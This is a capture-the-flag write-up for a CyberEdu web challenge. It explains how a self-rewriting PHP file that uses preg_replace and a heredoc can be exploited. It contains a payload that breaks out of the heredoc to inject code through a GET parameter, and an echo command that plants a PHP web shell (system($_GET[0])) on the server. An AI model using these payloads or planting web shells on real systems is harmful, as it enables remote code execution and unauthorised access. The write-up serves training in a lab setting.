






# Write-up: 
##  am-i-crazy

**Category:** Web
**Platform:** CyberEdu
**URL:** `https://app.cyber-edu.co/challenges/24a117a0-347e-11eb-b732-695350b7f49d`

---

The page source code tells us that we need any password as long as it is 8 characters long.
I entered 12345678 and got to the index.php page:



The vulnerability is in the regex pattern and the preg_replace callback.

var is a heredoc string.
the file updates itself with the new content after replacing the match for 

`$search_pattern = '/\$var = <<<xd\s*(.*)\s*xd/im';`

with the value of the parameter `?tryharder=`.

The challenge is very tricky because we can only modify the content of the file in the first request we send to  `/secrets/hash/index.php?tryharder=`. After the first request, the search pattern will be something like `$search_pattern = '/\$var = <<<xd(tryharder's value)xd/im'; `.

Also the hash is based on the password we use so we need a random password that wasn't used already on this instance.

I sent the post request and intercepted in burpsuite:



Now, on the first get request to `'/secrets/ea6e05ccacbd7f4e1549550f69930171/index.php'` i will assign to tryharder the value 5(testing the functionality). After this I will get back to index.php and see what's changed:



Ok, it worked.

To bypass that heredoc, I will send something like 
``` bash
xd;
`$_GET[0]`;

```
and var s value will become $var = <<<xd xd; $_GET[0];
Then i can submit shell commands longer that 15 characters.



since we don't want a blind rce, I will create a php script on the server where I can easily use my commands.

`echo '<br /><code><?php echo system($_GET[0]);?></code>' > tudor.php `

Now I ll use the tudor.php page to get my web shell without any constraints.

`ls -la ../../ `



There it is our flag!




